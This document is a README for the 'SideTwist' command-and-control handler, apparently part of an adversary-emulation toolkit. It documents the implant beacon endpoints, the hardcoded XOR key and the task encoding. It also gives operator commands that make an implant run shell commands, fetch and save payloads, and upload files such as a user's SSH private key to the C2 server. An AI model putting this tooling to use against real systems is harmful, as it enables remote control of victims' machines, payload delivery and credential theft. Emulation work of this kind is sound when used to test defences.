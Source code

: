 # SideTwist handler

The SideTwist C2 handler is the server-side counterpart for the SideTwist implant and is specifically designed to interact with it by sending commands embedded in HTML and receiving the associated output.

## Components
The handler consists of a web server that listens on a specified address/port and serves the following URL endpoints:
- `GET /search/{guid}`, where `{guid}` represents the unique ID of an implant session to register and receive tasks. E.g. the first `GET` request for `/search/1234` will create a new implant session with ID `1234`, and subsequent `GET` requests will simply return tasks.
- `POST /search/{guid}` is used to submit results (task output or file uploads) for the implant with the specified ID.
- `GET /getFile/{filename}` is used to fetch payloads of the name `{filename}`. Available payloads are listed in the `files` directory within the main C2 server repo.
- `GET /logo.png` serves the lookalike website logo. This will typically be requested only when using a browser to view the lookalike site.

## Usage

### Configuration
To enable and configure the SideTwist handler within the control server, edit the `config/handler_config.yml` from the main C2 server repo. Adjust the SideTwist entry as needed.

Example:
```
sidetwist:
  host: 192.168.0.8
  port: 443
  enabled: true
```

Run the `controlServer` binary as `sudo` and look for success messages in starting up the SideTwist handler.

### Tasking Implants
To register or receive tasking for an implant session, the SideTwist handler expects a `GET` request for `/search/{guid}`. If this is the first time that the SideTwist handler recognizes the implant with id `{guid}`, then it will set up a new session within the internal C2 REST server and then begin tasking the implant upon subsequent `GET` requests to the same endpoint.

For example:
```
curl http://192.168.0.4:443/search/abcd # First request, registers a new implant session with ID "abcd". Returns empty task.
curl http://192.168.0.4:443/search/abcd # Second request. Session for "abcd" already exists, returns a task if available, otherwise empty task.
```

As with other C2 handlers, implant tasking is performed by sending requests to the internal REST server using the `evalsC2client.py` script. 
The SideTwist handler will allow operators to task the following command types:
- `101 command arg1 arg2...` - the command ID `101` will have the implant execute a shell command with the provided args. Note that a command is required for ID `101`.
- `102 saveAsName|payloadName` - the command ID `102` will have the implant request a payload specified by `payloadName` and save it as `saveAsName`.
	- WARNING: the handler does not validate the command structure or payload names/paths, so operators must ensure that the correct names and paths are used, the `|` character is correctly placed, etc.
- `103 fileToUpload` - the command ID `103` will have the implant upload the specified local file to the C2 server.
- `104 command arg1 arg2...` - the command ID `104` is an alias for command ID `101`. Note that a command is required for ID `104`.
- `105` - instructs the implant to terminate. Used when the implant is in loop mode.

Examples of valid tasking:
```
./evalsC2client.py --set-task <guid> '101 whoami.exe'
./evalsC2client.py --set-task <guid> '101 ping 1.2.3.4'
./evalsC2client.py --set-task <guid> '102 c:\users\public\payload.exe|payload.exe'
./evalsC2client.py --set-task <guid> '102 localpath\file.name|serverfile.name'
./evalsC2client.py --set-task <guid> '103 c:\users\dummy\.ssh\id_rsa'
./evalsC2client.py --set-task <guid> '104 dir "C:\path with\spaces"'
./evalsC2client.py --set-task <guid> '105'
```

Examples of invalid tasking:
```
./evalsC2client.py --set-task <guid> '101' # 101 requires a command
./evalsC2client.py --set-task <guid> '102' # 102 requires a payload name
./evalsC2client.py --set-task <guid> '103' # 103 requires a filename
./evalsC2client.py --set-task <guid> '104' # 104 requires a command
./evalsC2client.py --set-task <guid> '106' # 106 is not a supported command ID
```

When the implant beacons in with the `GET /search/{guid}` requests, the returned HTTP response contains an HTML page with an embedded task string that has been encrypted and base64-encoded.
The embedded string is placed within `<script>` HTML tags, e.g.:
```
<script>/*Q14IEQ==*/</script>
```

Encryption and decryption are performed by XOR'ing the plaintext/ciphertext with the hardcoded key `notmersenne`.
The underlying plaintext data is the task string that gets processed by the implant and is of the form `commandNumber|commandID|base64(command to execute)`.
For instance, the first task assigned to the implant may look something like `1|101|d2hvYW1pLmV4ZSAvYWxs` (base64 encoding of `whoami.exe /all`), and the second task may look something like `2|102|YzpcdXNlcnNccHVibGljXHBheWxvYWQuZXhlfHBheWxvYWQuZXhl` (base64 encoding of `c:\users\public\payload.exe|payload.exe`). Note that if an implant beacons in, but there is no pending task for the session, the empty task string `-1||` is returned.

### Payloads
Like tasking, requested payloads are XOR-encrypted and base64-encoded before being returned. However, the payload data is not embedded in an HTML page. Instead, the raw encrypted/encoded file data is returned.

SideTwist-specific payloads must be stored within the `payloads/SideTwist` directory within the parent directory of the control server. For instance, if the control server is being run from the `Resources/control_server` directory, the payloads must be placed in `Resources/payloads/SideTwist/` in order for the SideTwist handler to successfully serve them.

### File Uploads and Task Output
When implants send task output or file uploads to the SideTwist C2 handler, they must do so by sending an HTTP `POST` request to `/search/{guid}` with their corresponding `guid` value. The server will not accept task output or file uploads from an implant if no task was assigned to the implant or if the specified task does not expect output (e.g. tasking the implant to terminate itself). The `POST` data must be a JSON dictionary with one key-value pair - the key is a string representation of the corresponding command number, and the value is a string containing the base64 encoding of the XOR-encrypted output or uploaded file data. 

Example (implant `abcd` submits output `thisismyoutput` for command number 5):
```
curl -X POST --data '{"5": "GgcdHgwBHhwBGxEeGgA="}' http://192.168.0.4:443/search/abcd
```

Upon success, a successful HTTP response code is sent back with an empty response body.

For regular task output, the SideTwist handler will forward the decoded and decrypted output to the REST server. File uploads will be decoded and decrypted before being written to the server's file system.

Note that the file uploads themselves do not contain the file name to save as - this is determined by the handler when tasking the implant with command ID `104`. For instance, if the implant is tasked with `104 C:\path\to\file.txt`, then the received file upload data will be saved as `file.txt` within the C2 server's `files` directory.

### Bootstrap Tasking
Since the SideTwist implant beacons back infrequently, the first beacon can be "wasted" since all it does is register a session without returning a command. If operators choose to do so, they can register "bootstrap" tasks, which will be the first task sent to any new session registered with the sidetwist handler. Note that only one bootstrap task can be registered for the SideTwist handler, and the task will only be sent on the implant's first beacon when registering a session. Subsequent beacons from the same implant will not return this task.

To set a bootstrap task, use the `evalsC2client.py` script accordingly:

```
./evalsC2client.py --set-bootstrap-task sidetwist '101 whoami.exe /all'
```
In the example above, all new sidetwist sessions will be tasked with `101 whoami.exe/all`. Note that the task syntax must be the same as in regular tasking via `--set-task`.
Subsequent calls to `--set-bootstrap-task` will overwrite the currently set task.

To view or clear the currently set bootstrap task, run the following:
```
./evalsC2client.py --get-bootstrap-task sidetwist # view the currently set bootstrap task for sidetwist
./evalsC2client.py --del-bootstrap-task sidetwist # clear the bootstrap task for sidetwist
```

### Error Messages
In order to maintain some level of secrecy and OpSec, the handler will not return specific error messages in response to HTTP requests. Any specific error messages will be logged to the console and log file on the C2 server itself. The implant and HTTP requests will simply receive a generic error message of `Internal server error` with HTTP error code `500`.
